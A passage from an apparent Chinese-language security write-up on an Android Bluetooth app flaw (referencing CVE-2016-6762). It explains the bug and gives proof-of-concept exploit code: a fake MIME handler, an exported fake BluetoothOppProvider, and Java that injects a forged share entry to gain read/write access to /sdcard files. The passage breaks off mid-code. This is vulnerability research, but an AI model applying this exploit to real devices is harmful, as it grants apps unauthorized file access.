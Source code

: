 ```java
            activityIntent.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
            activityIntent.setFlags(Intent.FLAG_GRANT_WRITE_URI_PERMISSION);

            try {
                if (V) Log.d(TAG, "ACTION_VIEW intent sent out: " + path + " / " + mimetype);
                context.startActivity(activityIntent); 
```

由于 Intent 可控， Intent Data 可控， transInfo 可控，再加上启动的外部 App 被授予了读写权限，因此这里存在漏洞，我们可以伪造一个文件让蓝牙 App 启动某外部 App 打开，同时该外部 App 获得对伪造文件指向位置的读写权限。可惜此处伪造的文件位置受限于 com.android.bluetooth.filepovider ，其 file_paths.xml 使用的 external-path ，这意味着我们只能伪造一个外部存储 /sdcard 目录的文件。

### 0x03 漏洞利用

漏洞利用可如下图所示，这种攻击发送 intent 的过程像极了飞去来器。恶意 App 发送 intent 过后,又回到了自己手中，但却获得了提权。

1.恶意 App 声明能对某种 filetype 进行处理

```xml
        <activity android:name=".FakeViewActivity">
            <intent-filter>
                <action android:name="android.intent.action.VIEW" />
                <category android:name="android.intent.category.DEFAULT" />
                <data android:mimeType="xxx/yyy" />
            </intent-filter>
        </activity>
```

2.构造一个虚假的 bluetooth share provider——FakeBluetoothOppProvider ，传入 intent data 之中。主要内容可以参考 BluetoothOppProvider ，其 Uri 为

content://fake.bluetooth.provider/btopp/

并expose出来

<provider
            android:authorities="fake.bluetooth.provider"
            android:name=".FakeBluetoothOppProvider"
            android:exported="true" />

然后填入内容，指向 /sdcard 中某个已知文件，并传入 Intent data , 启动 BluetoothOppLauncherActivity

``` java
        m_btnTest.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                Intent intent = new Intent();
                intent.setComponent(new ComponentName("com.android.bluetooth",
                        "com.android.bluetooth.opp.BluetoothOppLauncherActivity"));
                intent.setAction(Constants.ACTION_OPEN);
                intent.setData(Uri.parse("content://fake.bluetooth.provider/btopp/1"));
                startActivity(intent);

            }
        });

        m_btnAddFakeEntry = (Button)findViewById(R.id.add);
        m_btnAddFakeEntry.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                ContentValues values = new ContentValues();
                values.put(BluetoothShare._ID, 1);
                values.put(BluetoothShare.DIRECTION, BluetoothShare.DIRECTION_INBOUND);
               values.put(BluetoothShare.TOTAL_BYTES, 110000);
                values.put(BluetoothShare.CURRENT_BYTES,110000);
                values.put(BluetoothShare.TIMESTAMP, 111111);
                values.put(BluetoothShare.DESTINATION, "00:10:60:AA:36:F8");
                values.put(BluetoothShare._DATA, "/storage/emulated/0/CVE-2016-6762.apk");
```